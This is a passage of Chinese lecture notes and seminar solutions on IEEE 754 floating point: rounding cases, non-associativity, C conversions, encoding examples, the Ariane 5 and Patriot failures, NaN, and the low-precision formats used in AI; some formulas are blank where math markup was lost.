保持 x 不变，只换 y，就能看到 G、R、S 的各种组合以及它们导致的不同结局（表 12，每一行都用 numpy 的 float32 加法核对过）。其中 y = 0.5 一行最值得注意：精确和 16777215.5 还没有达到 ，规格化后指数仍是 23，此时被舍去的部分恰好是一半（R = 1，S = 0），按向偶数舍入的规则要看 G：G = 1 是奇数，于是进位；而这一进位又让尾数从 变成 ，必须再规格化一次，指数变为 24。这就是规则框里“舍入之后可能还要再规格化”的情形。另外，y = 1.0 和 y = 1.5 得到同样的结果 16777216，y = 2.5 和 y = 3.5 也得到同样的结果，说明当 x 很大时，y 的小数部分（甚至个位）被吞掉了，这正是 3.11 节结合律不成立的根源。
表 12 x = 16777215 不变，y 取不同值时的 G、R、S 与舍入结果（float，向偶数舍入）
| y | 精确和 | 规格化后 E | G R S | 舍入动作 | float 结果 |
|---|---|---|---|---|---|
| 0.5 | 16777215.5 | 23 | 1 1 0 | 恰好一半，G 为奇，进位；进位后尾数为 2，再规格化，E 变为 24 | 16777216 |
| 1.0 | 16777216 | 24 | 0 0 0 | 精确，无需舍入 | 16777216 |
| 1.5 | 16777216.5 | 24 | 0 0 1 | 不到一半，舍去 | 16777216 |
| 2.5 | 16777217.5 | 24 | 0 1 1 | 超过一半，进位（图 5） | 16777218 |
| 3.5 | 16777218.5 | 24 | 1 0 1 | 不到一半，舍去 | 16777218 |
| 4.5 | 16777219.5 | 24 | 1 1 1 | 超过一半，进位 | 16777220 |
研讨题 2（3）（4）给出了新的乘法、加法完整算例，包括同号相加、异号相减时的“大数相消”以及“大数吃掉小数”。
3.11 浮点运算的数学性质（课件 p.37–38）#
表 13 浮点加法对比阿贝尔群、浮点乘法对比交换环（课件 p.37–38）
| 性质 | 浮点加法 | 浮点乘法 |
|---|---|---|
| 封闭性 | 是（但可能得到 ∞ 或 NaN） | 是（但可能得到 ∞ 或 NaN） |
| 交换律 | 是 | 是 |
| 结合律 | 否：上溢与舍入。(3.14+1e10)−1e10 = 0，3.14+(1e10−1e10) = 3.14 | 否：(1e20*1e20)*1e−20 = inf，1e20*(1e20*1e−20) = 1e20 |
| 单位元 | 0 是加法单位元 | 1 是乘法单位元 |
| 逆元 | 几乎都有：除 ∞ 与 NaN 外，x 的逆元是 −x | —（课件未列） |
| 分配律 | — | 否：1e20*(1e20−1e20) = 0.0，1e20*1e20 − 1e20*1e20 = NaN |
| 单调性 | 几乎成立：，除 ∞ 与 NaN 外 | 几乎成立：，除 ∞ 与 NaN 外 |
⚠ 这些例子是在 float 下成立的
课件中的数值例子要按单精度 float 理解。在 x86-64 上实测：float 的 (3.14+1e10)−1e10 得 0，(1e20*1e20)*1e−20 得 inf，1e20*1e20 − 1e20*1e20 得 NaN；若改用 double，1e40 并不上溢，(3.14+1e10)−1e10 得到 3.1399993896484375（仍不等于 3.14，但不是 0）。原因在于 float 在 1e10 附近相邻两数的间距是 1024，3.14 被完全吞掉；而 double 在 1e10 附近的间距约为 。
与第 1 讲的整数运算相比，整数运算满足结合律和分配律但不满足单调性（会溢出回绕）；浮点运算恰好相反，满足单调性却不满足结合律和分配律。
不满足结合律给编译器带来了麻烦：编译器不能把 x = a + b + c; y = b + c + d; 优化为先算 t = b + c 再复用，因为 (a+b)+c 与 a+(b+c) 可能不同（教材 2.4.5 节）。gcc 只有在 -ffast-math 下才会进行这类变换。对数值计算程序员而言，求和的顺序会影响结果，例如把许多小数加到一个大数上之前，先把小数加在一起会更准确。
3.12 C 语言中的浮点数（课件 p.40）#
C 保证提供两种精度：float（单精度）和 double（双精度）。在 int、float、double 之间进行类型转换时，位表示会改变（这与第 2 讲 int ↔ unsigned 的“位模式不变、重新解释”截然不同），数值则按下表的规则变化：
表 14 C 中的浮点类型转换（课件 p.40；教材 2.4.6 节）
| 转换 | 规则 | 例子（x86-64 实测） |
|---|---|---|
| double/float → int | 截断小数部分，即向零舍入；超出范围或为 NaN 时 C 未定义，x86 上一般得到 TMin（0x80000000，称为“整数不定值”） | (int)-2.7 = -2；运行时 (int)1e10、(int)NaN 都得到 −2147483648 |
| int → double | 精确转换（double 有 53 位有效位，足以容纳 32 位 int） | 任何 int 都能精确表示 |
| int → float | 可能舍入（float 只有 24 位有效位），按当前舍入方式 | (float)16777217 = 16777216.0 |
| double → float | 可能舍入，也可能上溢为 ±∞ 或下溢为 0 | (float)1e40 = inf |
| float → double | 精确转换 |
⚠ 编译期与运行期的结果可能不同
(int)1e10 若写成常量，gcc 在编译时会把它折叠为 2147483647（饱和），而运行时 cvttsd2si 指令给出的是 −2147483648。这正说明“超出范围时行为未定义”：不要依赖其结果，转换前应自行检查范围。
3.13 浮点谜题（Floating Point Puzzles，课件 p.41）#
设 int x = …; float f = …; double d = …;，且 d、f 都不是 NaN。判断下列表达式是否对所有取值都成立：
表 15 浮点谜题答案
| 表达式 | 结论 | 理由 / 反例（均已实测） |
|---|---|---|
x == (int)(float) x | ✗ 不总成立 | float 只有 24 位有效位。x = = 16777217 时，(float)x = 16777216 |
x == (int)(double) x | ✓ 总成立 | double 有 53 位有效位，int → double 精确，再转回 int 不变 |
f == (float)(double) f | ✓ 总成立 | float → double 精确（范围和精度都更大），再转回来不变 |
d == (double)(float) d | ✗ 不总成立 | d = 0.1 时转 float 丢失精度；d = 1e40 时转 float 上溢为 inf |
f == -(-f) | ✓ 总成立 | 取负只翻转符号位，是精确运算 |
2/3 == 2/3.0 | ✗ 不总成立 | 2/3 是整数除法，结果为 0；2/3.0 约为 0.6667 |
d < 0.0 ⇒ ((d*2) < 0.0) | ✓ 总成立 | 乘 2 是单调的；即使上溢也得到 −∞，仍小于 0；负数乘 2 不会下溢为 0 |
d > f ⇒ -f > -d | ✓ 总成立 | 取负是精确的，不等式两边同时取负方向翻转 |
d * d >= 0.0 | ✓ 总成立 | 平方的符号一定为正；上溢时得到 +∞ |
(d+f)-d == f | ✗ 不总成立 | d = 1e20，f = 1.0：d+f 舍入为 1e20，结果为 0；也可能 d+f 上溢 |
课件 p.42 把浮点的性质总结为：IEEE 浮点有清晰的数学性质，表示形如 的数；可以脱离具体实现推理运算结果——就像先以无限精度计算再舍入；但它不同于实数算术，违反结合律和分配律，这给编译器和严肃的数值计算程序员带来了困难。
第二部分 小班研讨题解答（第 3 讲）#
题目来自《ICS 小班研讨题和作业题（第 3 讲）》，默认前提为 IEEE 754 标准和 C 语言。题目中“课件第 x 页”均指 2026 年课件 ICS03-float-20260914。要求“设计”的例子都是新设计的，所有数值已用 C 程序或 Python 验证。
研讨题 1：浮点数的格式#
1（1）课件最开始介绍的二进制小数表达方式是固定小数点位置的（定点数），对比浮点数，分析定点数的优点和缺点，举出实例配合分析。
定点数把 位分成固定的整数部分和小数部分，本质上是“整数 × 固定的比例因子”。例如 Q16.16 格式用 32 位表示 （N 为 32 位补码整数）。浮点数则让小数点位置随数值“浮动”，用指数记录它的位置。两者的对比如下：
表 16 定点数与浮点数的比较
| 定点数（以 32 位 Q16.16 为例） | 浮点数（以 32 位 float 为例） | |
|---|---|---|
| 表示范围 | 约 −32768 ～ 32767.99998 | 约 ，最小正数约 |
| 精度 | 绝对精度固定：处处间距 | 相对精度大致固定：约 7 位十进制有效数字，间距随数值变化 |
| 运算硬件 | 就是整数运算：加减直接用整数加法器，乘法后右移 16 位 | 需要对阶、规格化、舍入，硬件复杂（或软件模拟，很慢） |
| 速度、功耗、确定性 | 快、省电；结果与平台无关，可严格复现 | 较慢；不同编译选项（如 FMA、x87）可能得到略有不同的结果 |
| 溢出 | 容易溢出，且像整数一样回绕 | 溢出为 ±∞，可检测 |
| 程序员负担 | 需要自己管理比例因子、防止溢出 | 基本不需要关心小数点位置 |
第一个实例是金额计算。银行和会计系统常用“以分为单位的 64 位整数”（定点数，比例因子 1/100），保证 0.01 元能精确表示、加减法没有任何舍入误差；如果用 double，0.1 + 0.2 != 0.3 这类误差会在大量交易中累积。这是定点数的优势。
第二个实例是嵌入式与数字信号处理。许多单片机和音频 DSP 没有浮点运算单元，常用 Q15 格式（16 位，范围 [−1, 1)）处理音频采样，用整数指令即可高速运算。字体渲染（TrueType 的 26.6 格式）也用定点数表示像素坐标。
第三个实例是定点数的缺陷——爱国者导弹事故。系统时钟以 0.1 秒为单位计数，程序用 24 位定点寄存器存放 1/10 来换算时间。0.1 的二进制是无限循环小数，被截断后每个时钟周期产生约 秒的误差，连续运行 100 小时累积约 0.34 秒，导致拦截失败（见下一题）。
第四个实例是范围问题。天体物理中质量可达 kg，量子尺度长度可小至 m，任何定点格式都无法同时容纳；科学计算因此几乎全部使用浮点数。
由此可以得出结论：数值范围已知且有限、要求绝对精度或严格可复现时，用定点数；数值跨越多个数量级、更关心相对精度时，用浮点数。
1（2）拓展研讨：基于课件第 9 页，调研并讲述这两个重大事故，分析浮点数的重大影响。
表 17 课件 p.9 的两起事故
| 阿丽亚娜 5 号首飞失败（Ariane 5 Flight 501） | 爱国者导弹拦截失败（Patriot, Dhahran） | |
|---|---|---|
| 时间 | 1996 年 6 月 4 日 | 1991 年 2 月 25 日，海湾战争期间，沙特达兰 |
| 后果 | 起飞约 37 秒后火箭偏离航向、解体并自毁；课件称损失约 5 亿美元 | 未能拦截来袭的飞毛腿导弹，28 名美军士兵死亡，约 100 人受伤 |
| 直接原因 | 惯性参考系统（SRI）把一个 64 位浮点数（水平偏差 BH）转换为 16 位有符号整数时超出范围，触发“操作数错误”异常 | 系统时钟以 0.1 秒计数，用 24 位定点寄存器存放 1/10 进行换算，截断误差每次约 秒 |
| 为何会发生 | 软件沿用阿丽亚娜 4 号。5 号起飞初期的水平速度远大于 4 号，BH 的值超出了 16 位整数的范围；而出于性能考虑，这个转换没有加保护。该对准功能在起飞后其实已经不需要，只是为了与 4 号兼容而保留 | 系统设计时假定只会连续运行几小时，但当时已连续运行约 100 小时，误差累积到约 0.34 秒。飞毛腿导弹速度约 1676 m/s，0.34 秒内飞行超过 0.5 km，导弹落在了雷达跟踪“距离门”之外 |
| 冗余为何失效 | 备份 SRI 运行完全相同的软件，在 72 毫秒前已因同样原因停机；主 SRI 随后停机，并向主计算机输出了诊断数据，被误当作飞行数据 | 课件提到“8 小时漂移 20%”：运行越久，距离门偏移越大，重启系统即可清零误差 |
| 与本课的联系 | 浮点 → 整数转换超出范围（3.12 节：C 中为未定义行为） | 有限位二进制无法精确表示 0.1（3.1 节），舍入误差会累积 |
这两起事故的分析与启示如下。两起事故都不是硬件故障，而是程序员对数值表示的假设在新条件下失效：阿丽亚娜 5 号假设“这个量不会超出 16 位整数范围”，爱国者假设“系统不会连续运行太久，误差可以忽略”。由此可以总结出：（1）跨类型转换必须检查范围，尤其是浮点转整数；（2）有限精度表示中，单次很小的舍入误差会随运算次数线性甚至更快地累积，对长时间运行或迭代计算要估计误差上界；（3）复用代码时必须重新审查数值范围；（4）冗余备份若运行相同的软件，无法防御软件设计错误。
1（3）基于课件第 11 页和教材相关内容，说明公式中 s、M、E 对应的英文名词和中文翻译，介绍 MSB、exp、frac 对应的英文全称和中文翻译。
| 符号 | 英文 | 中文 | 含义 |
|---|---|---|---|
| s | sign | 符号 | 0 为正，1 为负；也是整个编码的最高位 |
| M | significand（也称 mantissa） | 尾数 / 有效数 | 规格化数为 ，非规格化数为 |
| E | exponent | 阶码 / 指数 | 规格化数为 ，非规格化数为 |
| MSB | Most Significant Bit | 最高有效位 | 浮点编码的最高位，就是符号位 s |
| exp | exponent field | 阶码字段（指数域） | 编码 E 的 k 位字段，按无符号数解读为 Exp |
| frac | fraction field | 小数字段（尾数域） | 编码 M 的 n 位字段，表示 M 的小数部分 |
| Bias | bias | 偏置量 | ，单精度为 127，双精度为 1023 |
要特别区分数值与字段：s、M、E 是公式中的数值，exp、frac 是存储中的位字段。exp ≠ E，frac ≠ M，课件 p.11 用“encodes … but is not equal to”专门强调了这一点。另外，教材中 significand 与 mantissa 常混用，严格说 mantissa 多指小数部分，IEEE 754-2008 推荐使用 significand。
1（4）根据课件第 14、15、18 页，设计一个对应规格化数的单精度浮点数，边做转换，边讲述规格化数的规则设定，分析设计上有哪些巧妙之处和需要特别注意的地方。
设计数值 −23.625，把它编码为单精度浮点数。
先定符号：负数，s = 1。（规则：符号单独用一位表示，与原码类似，所以正负数的绝对值编码相同。）
接着写成二进制：，，所以 。
然后规格化：移动小数点，使整数部分恰为 1：，于是 ，。（规则：规格化数的 M ∈ [1, 2)。）
这里求 exp 字段：。（规则：E 用偏置编码存储，Exp 必须在 1～254 之间。）
下一步求 frac：去掉 M 的前导 1，取小数部分 0111101，右侧补 0 到 23 位：01111010000000000000000。（规则：前导 1 隐含不存。）
把各部分拼接起来：1 10000011 01111010000000000000000，按 4 位分组为 1100 0001 1011 1101 0000 …，即 0xC1BD0000（已用 C 验证）。
最后按课件 p.18 的方法反向验证：exp = 131 → E = 4；M = 1 + 1/4 + 1/8 + 1/16 + 1/32 + 1/128 = 1.4765625；。✓
| −23.625 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 1 | 1 | 0 | 1 | 1 | 1 | 1 | 0 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0xC1BD0000 |
★ 规格化数设计的巧妙之处
规格化后最高位必为 1，隐含前导 1 的设计干脆不存它，免费多得一位精度（24 位有效位只用 23 位存）。
指数采用偏置编码，exp 按无符号数增大时 E 也增大，再加上 exp 在 frac 前面，使非负浮点数可以直接按无符号整数比较大小（3.7 节）。
exp 的全 0 与全 1 被保留下来，分别留给非规格化数（含 0）和特殊值，规格化数的范围因此是 Exp ∈ [1, 254]。
最后，符号位独立于其余各位，取负只需翻转一位，且 x 与 −x 的精度完全对称（不像补码有 TMin 的不对称）。
⚠ 需要特别注意的地方
exp 不是 E，frac 不是 M；编码时别忘了加 Bias，解码时别忘了加回前导 1（作业 2.87 中最常见的错误）。
不是所有十进制数都能精确表示。例如 0.1 = ，第 24 位之后的部分 1100… 大于一半，需要向上舍入，得到 0x3DCCCCCD，实际值约为 0.100000001490116。
此外，大整数会丢失精度： 不能被 float 精确表示，会舍入为 。
1（5）规格化数的 exp 域，看起来是在用无符号数的编码表达有符号数，但是和之前学的补码不同在于，这里是正数比负数多一个，补码是负数比正数多一个。这是为什么？有什么好处呢？
先核实现象。单精度 Bias = 127，规格化数 E 的范围是 −126～127：正指数 1～127 共 127 个，负指数 −1～−126 共 126 个，正的确实多一个。若取 Bias = 128，则范围变为 −127～126，就和补码一样负的多一个。IEEE 选择 有以下几点考虑：
第一点是负方向有非规格化数“补位”：在接近 0 的一侧，非规格化数还能把范围延伸到 （单精度），而大数一侧没有类似的机制。多给正指数一个，可以让上下两侧的动态范围更均衡。
第二点是最小规格化数的倒数不会上溢：Bias = 127 时，最小规格化数 的倒数 远小于最大值 ，可以安全表示。若取 Bias = 128，最小规格化数变成 ，其倒数 却超过了此时的最大值 ，会上溢为 ∞。反过来，最大值的倒数约为 ，虽然小于最小规格化数，但仍落在非规格化数范围内，只损失部分精度而不会变成 0。
1.0 位于编码中点：Bias = 127 使 1.0 的 exp 恰为 01111111，大于 1 与小于 1 的数各占约一半的 exp 编码。
为什么用偏置编码而不用补码表示指数？关键好处是单调性：偏置编码中，exp 按无符号数越大，E 越大；而补码中，负数的位模式按无符号看反而更大（−1 是全 1）。因为 exp 放在 frac 前面，用偏置编码就能让整个浮点位模式按无符号整数比较时与数值顺序一致，硬件可以复用整数比较电路，排序也很方便。此外，偏置编码下 0.0 的 exp 为全 0，使得浮点 0 与整数 0 的位模式相同。
1（6）根据课件第 16、21 页，设计一个对应非规格化数的单精度浮点数，边做转换，边讲述非规格化数的规则设定，分析设计上有哪些巧妙之处和需要特别注意的地方。结合后面的课件，分析 +0 和 −0 有什么负面影响和正面作用，解释 Equispaced 是什么意思。
设计数值 。它小于最小规格化数 ，只能用非规格化数表示。
先判断类别：，所以 exp = 00000000，按规则 。（规则：非规格化数的指数固定为 。）
接着求 M：。（规则：，前导位隐含为 0。）
再求 frac：M 的二进制为 ，即小数点后第 13、14 位为 1，frac = 00000000000011000000000。
最后拼接：s = 0，得到 0 00000000 00000000000011000000000 = 0x00000600。用整数看，frac 的值为 ，所以 。✓（已用 C 验证）
| 3×2⁻¹⁴⁰ | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0x00000600 |
可以看出非规格化数的一个简洁性质：它的值就是“把 frac 当整数”乘以最小间距 。这正是 equispaced（等间距）的含义：所有非规格化数是 倍的 ，均匀地排列在 0 与 之间，而且这个间距与最小一段规格化数 的间距相同，两者无缝衔接。
★ 非规格化数设计的巧妙之处
非规格化数首先让 0 有了表示：规格化数 M ≥ 1，表示不了 0，而 exp 与 frac 全 0 恰好是 0，且与整数 0 的位模式相同。
它还实现了逐渐下溢（gradual underflow）。没有非规格化数时，最小正数是 ，比它小的结果会突然变成 0；有了非规格化数，精度逐渐降低而不是骤降为 0。它保证了一个重要性质： 时 。
非规格化数的 E 取 而非 ，使最大非规格化数与最小规格化数平滑衔接（3.3 节）。
⚠ 需要注意的地方
非规格化数的有效位比规格化数少（前导 0 越多，有效位越少），相对精度变差。例如上例只有 2 位有效位。
许多处理器处理非规格化数要走慢速路径（微码或异常），可能慢几十倍；一些程序会开启“flush-to-zero”模式把它们直接当 0 处理。
不要把 frac 直接当作 M 的全部而忘记 M 的前导位是 0 而非 1，也不要把 E 写成 −127。
| +0 与 −0 | |
|---|---|
| 负面影响 | 同一个数值有两个位模式：0.0 == -0.0 为真，但按位比较（如 memcmp 或把 float 当 int 比较）不相等；作为哈希表的键时需要特殊处理；用整数比较浮点数时必须单独考虑（课件 p.29）。另外 而 ，两个“相等”的数运算后得到截然不同的结果，可能让人困惑。 |
| 正面作用 | 保留了下溢之前的符号信息：例如 -1e-30f * 1e-30f 下溢为 −0，说明真实结果是一个极小的负数。这让 1/x 的结果有正确的符号（），在复变函数的分支切割和 atan2(-0.0, -1.0) = −π、atan2(+0.0, -1.0) = +π 这类计算中给出正确的方向。课件 p.17 的例子 1.0/−0.0 = −∞ 就依赖于 −0 的存在。 |
1（7）根据课件第 17 页，讲述特殊值的规则设定，分析：为什么要设计“无穷”，而不是沿用整型数的溢出，有什么好处？为什么要设计“非数”（NaN），有什么好处？结合课件第 29 页，说明这些设计给浮点数比较带来的影响。
特殊值的规则是：exp 全 1 时为特殊值；frac 全 0 表示 ±∞（符号由 s 决定），frac 非 0 表示 NaN。
为什么用无穷而不用回绕？整数溢出回绕会产生符号相反、数值完全错误的结果（INT_MAX + 1 变成最小的负数），而且没有任何标记，错误会悄悄地传播下去。浮点上溢得到 ±∞ 有三个好处：（1）保持了方向和数量级的正确性——“一个非常大的正数”仍然是正的、比任何有限数都大，单调性得以保持（3.11 节）；（2）可以继续计算并得到有意义的结果，例如 ，atan(1/0.0) = π/2，不必为每一步都写溢出检查；（3）可检测：isinf(x) 可以事后判断是否发生了上溢。除以 0 也得到带符号的无穷，与极限的数学含义一致。
为什么需要 NaN？像 、、、 这样的运算没有合理的实数结果。如果每次都让程序崩溃（陷入异常），一个大规模计算中的个别无效数据就会使整个计算中断；NaN 让计算继续进行，并且 NaN 会沿着后续运算传播（任何涉及 NaN 的算术运算结果仍是 NaN），程序可以在最后统一检查结果是否有效。在数据处理中，NaN 也常被用来表示缺失值。
★ 对比较运算的影响（课件 p.29）
∞ 可以正常比较， 任何有限数 ，按无符号整数比较位模式也成立。
NaN 则是“无序”的：NaN 与任何值（包括它自己）比较，<、>、<=、>=、== 都为假，只有 != 为真。所以 x != x 是判断 NaN 的经典方法（等价于 isnan(x)）。
NaN 破坏了全序：a < b、a == b、a > b 三者可能都不成立，对含 NaN 的数组排序可能出错；!(a < b) 不再等价于 a >= b。
按无符号整数比较位模式时，NaN 的位模式比 ∞ 还大（课件：“Will be greater than any other values”），与 IEEE 规定的“无序”语义不符，必须单独处理。
−0 与 +0 比较相等，但位模式不同。
1（8）拓展研讨：NaN 值的 frac 域不为零，那留了这么多取值的可能，用来做什么？
单精度中 NaN 的位模式有 个（两种符号，frac 为任意非 0 值）。这么多取值并没有浪费，主要有以下用途：
最常见的用途是区分安静 NaN 和信号 NaN。IEEE 754-2008 推荐用 frac 的最高位区分：为 1 是安静 NaN（quiet NaN, qNaN），在运算中静默传播；为 0 是信号 NaN（signaling NaN, sNaN），一旦参与运算就触发“无效操作”异常，可用来标记“未初始化的变量”，帮助调试。x86 上 0.0/0.0 产生的默认 NaN 是 0xFFC00000。
frac 的其余位还可以携带诊断信息（payload），记录 NaN 的来源，例如产生它的指令地址或错误类型，便于事后排查。标准规定运算应尽量保留输入 NaN 的 payload。
更巧妙的用法是 NaN-boxing：许多 JavaScript 引擎（如 SpiderMonkey、JavaScriptCore）和 LuaJIT 把指针、整数、布尔值等“藏”在 double 型 NaN 的 51 位 payload 中，用一个 64 位值同时表示“数字或其他对象”，节省内存。RISC-V 也用类似思路，在 64 位浮点寄存器中存放 32 位 float 时，把高 32 位置为全 1。
1（9）基于课件第 26 页，配合前后内容，讲解这种浮点数格式从正无穷到零的变化过程。
在 8 位格式（4 位 exp，Bias = 7，3 位 frac）中，从 +∞ 的位模式 0 1111 000 开始，把位模式当作无符号整数每次减 1，得到的值单调递减，直到 0。过程可以分段描述：
表 18 8 位格式从 +∞ 到 0
| 位模式区间 | E | 数值区间 | 相邻值间距 | 说明 |
|---|---|---|---|---|
| 0 1111 000 | — | +∞ | — | 特殊值；再往上 0 1111 xxx（xxx ≠ 0）是 NaN |
| 0 1110 111 → 0 1110 000 | 7 | 240 → 128 | 16 | 最大规格化数 240；共 8 个值 |
| 0 1101 111 → 0 1101 000 | 6 | 120 → 64 | 8 | exp 减 1，区间与间距都减半 |
| … | … | … | … | 每降一个 exp，间距减半 |
| 0 0111 111 → 0 0111 000 | 0 | 15/8 → 1 | 1/8 | 1 的编码 0 0111 000 |
| 0 0110 111 → 0 0110 000 | −1 | 15/16 → 1/2 | 1/16 | |
| … | … | … | … | |
| 0 0001 111 → 0 0001 000 | −6 | 15/512 → 8/512 | 1/512 | 最小规格化数 8/512 = 1/64 |
| 0 0000 111 → 0 0000 001 | −6 | 7/512 → 1/512 | 1/512 | 非规格化数，间距不再减半，等间距 |
| 0 0000 000 | — | 0 | — | 零 |
这些值呈现出几条规律：（1）规格化数部分是“分段等间距”的：每个 exp 对应一个“二进制数量级”，其中 8 个值等距排列，间距为 ；每降低一个数量级，间距减半，所以越靠近 0 越密，相对精度保持在 1/8～1/16 之间。（2）进入非规格化区后，指数被“冻结”在 ，间距保持 1/512 不再缩小，数值线性地降到 0，这就是逐渐下溢。（3）整个过程中位模式每减 1，数值都严格减小，验证了浮点数可以按无符号整数比较（课件 p.29）。
1（10）拓展研讨：现在 AI 的训练和推理中主要会用到哪些格式的浮点数，各有什么特点和用处？
深度学习对数值精度的要求远低于科学计算，却对内存带宽和计算吞吐极其敏感，因此发展出了大量低精度浮点格式。设计的核心权衡是：在固定位数下，指数位决定动态范围，尾数位决定精度。

图 6 AI 中常用浮点格式的位布局
表 19 AI 中常见的浮点格式（有效位按 (m+1)·log₁₀2 估算）
| 格式 | 布局 s-e-m | 最大值 | 有效十进制位 | 特点与主要用途 |
|---|---|---|---|---|
| FP32 | 1-8-23 | 约 7.2 | 标准单精度；混合精度训练中保存“主权重”和优化器状态 | |
| TF32 | 1-8-10 | 同 FP32 | 约 3.3 | NVIDIA 张量核心（Ampere 起）内部格式：FP32 的范围 + FP16 的精度，对用户透明地加速 FP32 矩阵乘 |
| FP16 | 1-5-10 | 65504 | 约 3.3 | IEEE 半精度；精度较好但范围窄，训练时梯度容易下溢，需要“损失缩放”（loss scaling） |
| BF16 | 1-8-7 | 同 FP32 | 约 2.4 | Google 提出的“脑浮点”：截取 FP32 的高 16 位，范围与 FP32 相同，无需损失缩放，是当前大模型训练的主流格式 |
| FP8 E4M3 | 1-4-3 | 448 | 约 1.2 | 精度相对高、范围小；多用于前向传播的权重和激活值（Hopper、Blackwell 等 GPU 支持） |
| FP8 E5M2 | 1-5-2 | 57344 | 约 0.9 | 范围大、精度低；多用于反向传播的梯度 |
| FP4 E2M1 | 1-2-1 | 6 | — | 只能表示 0、0.5、1、1.5、2、3、4、6 及其相反数；必须配合块缩放使用，主要用于推理，也在探索用于训练 |
先看块缩放（microscaling）格式。4 位、8 位格式的范围太窄，于是让一小块数据共享一个缩放因子，相当于给一组数一个“公共指数”。OCP 制定的 MXFP4 每 32 个 E2M1 元素共享一个 8 位的 2 的幂缩放因子（E8M0）；NVIDIA Blackwell 的 NVFP4 每 16 个 E2M1 元素共享一个 FP8（E4M3）缩放因子，并且每个张量再有一个 FP32 缩放因子，平均每个值约占 4.5 位，大约比 FP16 节省 3.5 倍内存。
为什么 AI 能用这么低的精度？神经网络对单个数值的小误差有很强的容忍度（训练本身就是带噪声的随机梯度下降），而计算量和数据量巨大，减少一半位数就意味着内存占用减半、带宽需求减半、同样面积的芯片上可以放更多乘法器。常见做法是混合精度：矩阵乘法用低精度输入，在更高精度（FP32）中累加，关键状态（主权重、优化器状态）保留 FP32。整数格式（INT8、INT4）也广泛用于推理量化，但它们是定点而非浮点。这一领域发展很快，具体支持情况以各厂商最新文档为准。
研讨题 2：浮点数的运算#
2（1）根据课件第 32、33 页，重新设计几个十进制数字，讲解这几种舍入方法，然后重点讲解“向偶数舍入”的各种边界情况，分析“向偶数舍入”有什么优势。
设计五个金额，舍入到整数元：
| 舍入方式 | 2.30 | 2.70 | 2.50 | 3.50 | −2.50 | 规则 |
|---|---|---|---|---|---|---|
| 向零舍入 | 2 | 2 | 2 | 3 | −2 | 直接截掉小数部分（C 的浮点转整数就是这样） |
| 向下舍入（−∞） | 2 | 2 | 2 | 3 | −3 | 取不大于原值的最大整数（floor） |
| 向上舍入（+∞） | 3 | 3 | 3 | 4 | −2 | 取不小于原值的最小整数（ceil） |
| 向偶数舍入 | 2 | 3 | 2 | 4 | −2 | 取最近值；恰好一半时取末位为偶数的值 |
边界情况（舍入到百分位）：
| 原值 | 结果 | 分析 |
|---|---|---|
| 3.1449999 | 3.14 | 差一点到一半：不是恰好一半，按“最近”舍去。判断是否“一半”要看全部剩余位，不能只看下一位 |
| 3.1450001 | 3.15 | 略超一半，进位 |
| 3.1450000 | 3.14 | 恰好一半，保留位 4 为偶数，舍去 |
| 3.1350000 | 3.14 | 恰好一半，保留位 3 为奇数，进位成偶数 4 |
| 9.9950000 | 10.00 | 恰好一半，9 为奇数，进位，并且连续进位到整数部分 |
| −3.1450000 | −3.14 | 负数按绝对值同样处理，符号不变 |
| 2.5 → 整数 | 2 | 恰好一半，2 为偶数；而“四舍五入”会得到 3 |
向偶数舍入的优势是没有统计偏差。设想对 0.5、1.5、2.5、3.5 四个数先舍入再求和，精确和为 8。“四舍五入”得 1 + 2 + 3 + 4 = 10，偏大 2；向上舍入同样得 10；向零或向下舍入得 0 + 1 + 2 + 3 = 6，偏小 2；向偶数舍入得 0 + 2 + 2 + 4 = 8，与精确和相等。“恰好一半”的情况下一半向上、一半向下，长期累积的误差期望为 0，这对大量数据求和、迭代计算尤其重要。此外，每次舍入的误差都不超过最小单位的一半，是“最近”意义下最好的。C 中的 rint、nearbyint 默认就按向偶数舍入：rint(2.5) = 2，rint(3.5) = 4，rint(-1.5) = −2；而 round(2.5) = 3 是“远离零”的四舍五入。
2（2）根据课件第 34 页，重新设计几个二进制数字，展现“向偶数舍入”的各种情况。
设计六个数，舍入到 1/8（保留小数点后 3 位），竖线左边为保留部分，右边为待舍去部分，并标出 G、R、S：
| 值 | 二进制 | G | R | S | 情况与动作 | 结果 | 结果值 |
|---|---|---|---|---|---|---|---|
| 1.000|001 | 0 | 0 | 1 | R = 0：小于一半，舍去 | 1.000 | 1 | |
| 1.011|001 | 1 | 0 | 1 | R = 0：小于一半，舍去（G 为奇也不进位） | 1.011 | ||
| 1.010|110 | 0 | 1 | 1 | R = 1，S = 1：大于一半，进位 | 1.011 | ||
| 1.001|100 | 1 | 1 | 0 | 恰好一半，G = 1 为奇：进位 | 1.010 | ||
| 1.010|100 | 0 | 1 | 0 | 恰好一半，G = 0 为偶：舍去 | 1.010 | ||
| 1.111|100 | 1 | 1 | 0 | 恰好一半，G = 1：进位并连续进位，需要再规格化 | 10.000 | 2 |
